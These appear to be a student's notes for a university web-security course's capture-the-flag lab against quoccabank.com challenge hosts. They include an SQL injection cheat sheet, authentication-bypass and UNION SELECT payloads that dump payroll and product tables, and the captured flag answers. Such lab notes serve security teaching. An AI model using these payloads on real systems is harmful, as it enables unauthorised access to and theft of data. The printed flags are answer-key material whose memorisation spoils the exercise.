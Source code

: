 # Topic 3 Challenges

- [x] pay-portal.quoccabank.com (1)
- [x] support.quoccabank.com (2)
- [x] bigapp.quoccabank.com (7)
- [x] signin.quoccabank.com (1)
- [x] v1.feedifier.quoccabank.com
- [x] v2.feedifier.quoccabank.com
- [x] v3.feedifier.quoccabank.com
- [x] v4.feedifier.quoccabank.com
- [x] letters.quoccabank.com (2)
- [x] bfd.quoccabank.com (1)
- [x] gcc.quoccabank.com (1)

https://docs.google.com/document/d/13wsZDpeXLCSl7F_GGrz43iB8r430f7DLL_Nb7BJVoMs/edit

## Tools

- ifconfig, dig
- RCE curl on command injection with ur local server

### Cheat Sheet

-  `" OR "1" = "1" --`
-  `" union select 1,2,3,4,5,6,7,8 -- ` or `" union select 1,2,3,4,5,6,7,8 from dual -- `
   -  `dual` is a placeholder table - does not contain anything
   -  use this to test query
-  `" union select 1,table_name,table_schema,4,5,6,7,8 from information_schema.tables --`
   -  views all tables
- `" union select 1,table_name,column_name,4,5,6,7,8 from information_schema.columns -- `
  - selects all col and tables
- check if the SQL query uses single or double quotes and check how many columns are appended to UNION the table

### pay-portal.quoccabank.com


- `" union select 1,ID,FIRST,LAST,TITLE,PERIOD,GROSS,NET from payportal --  ` or `" or "1"="1" -- `
  - COMP6443{SQLiIsPowerful}

### bigapp.quoccabank.com

This challenge uses an "Untitled Goose Game" style objective list, whereas a flag is given to you in the response header when you achieve each of the following objectives.

- Login.

  - `' OR 1=1-- `
  - COMP6443{WHAT_IS_LOGIN.ejUzMTI3OTk=.63nx8F8Hja1QOPWzRwhnQg==}
- Make the banking product list return more than it should.

  - Get all products
    - `') OR '1'='1') UNION SELECT 1,bu,owner,code,category,pname from bproducts -- )`
    - `/api/v1/bproducts` -> check response header
    - COMP6443{INJECTION_UNION_CHALLENGE.ejUzMTI3OTk=.k0uJIAHGiGfC7cf/2OTOCQ==}
- Sort the banking products.
